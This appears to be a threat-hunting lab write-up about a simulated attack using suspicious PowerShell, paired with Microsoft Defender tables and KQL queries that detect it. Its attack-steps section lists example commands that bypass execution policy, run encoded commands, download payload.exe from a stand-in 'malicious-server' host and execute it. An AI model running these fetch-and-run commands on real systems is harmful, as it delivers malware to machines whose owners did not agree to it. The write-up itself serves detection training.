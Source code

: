 # Threat Event (Suspicious PowerShell Usage)
**Suspicious PowerShell Script Execution**

## Steps the "Bad Actor" Took Create Logs and IoCs:
1. Launch PowerShell in a suspicious manner (e.g., via `cmd.exe`, or another indirect method).
2. Execute encoded commands using `-encodedCommand` or download malicious scripts from external sources.
   - Example command: `powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand <Base64EncodedPayload>`
3. Download malicious payload from a remote server using `Invoke-WebRequest` or `Invoke-Expression`.
   - Example command: `Invoke-WebRequest -Uri http://malicious-server/payload.exe -OutFile "payload.exe"`
4. Execute the downloaded payload.
   - Example: `Start-Process -FilePath "payload.exe"`

---

## Tables Used to Detect IoCs:

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents                                                            |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose**| Used to detect PowerShell processes executed in a suspicious manner (e.g., via `cmd.exe`, `rundll32.exe`, or with flags like `-EncodedCommand` or `-ExecutionPolicy Bypass`). |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents                                                           |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table |
| **Purpose**| Used to detect network activity involving suspicious external requests (e.g., file download attempts using `Invoke-WebRequest` or connections to potentially malicious servers). |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents                                                              |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table |
| **Purpose**| Used to detect new or suspicious file creations in temporary directories (e.g., `C:\Windows\Temp\FakeMalware`) or files associated with PowerShell activity. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceRegistryEvents                                                            |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceregistryevents-table |
| **Purpose**| Used to detect unusual registry changes, particularly in execution policies or PowerShell-related settings that may indicate security feature bypasses. |

---

## Related Queries:
```kql
// PowerShell execution with encoded command
DeviceProcessEvents
| where FileName == "powershell.exe" and ProcessCommandLine contains "-encodedCommand"
| project Timestamp, DeviceName, ActionType, ProcessCommandLine

// PowerShell executed using indirect methods (e.g., cmd.exe or wininit.exe)
DeviceProcessEvents
| where FileName in~ ("cmd.exe", "wininit.exe") and ProcessCommandLine contains "powershell"
| project Timestamp, DeviceName, ActionType, ProcessCommandLine

// Suspicious network activity (downloading payload)
DeviceNetworkEvents
| where InitiatingProcessFileName == "powershell.exe" and RemoteUrl contains "malicious-server"
| project Timestamp, DeviceName, RemoteIP, RemoteUrl, RemotePort

// Detect payload download attempt using Invoke-WebRequest
DeviceProcessEvents
| where ProcessCommandLine contains "Invoke-WebRequest" and ProcessCommandLine contains "payload.exe"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Deletion of suspicious files (e.g., payload.exe)
DeviceFileEvents
| where FileName == "payload.exe" and ActionType == "Deleted"
| project Timestamp, DeviceName, FileName, ActionType
```

---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47/
- **Date**: January 24, 2024

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**
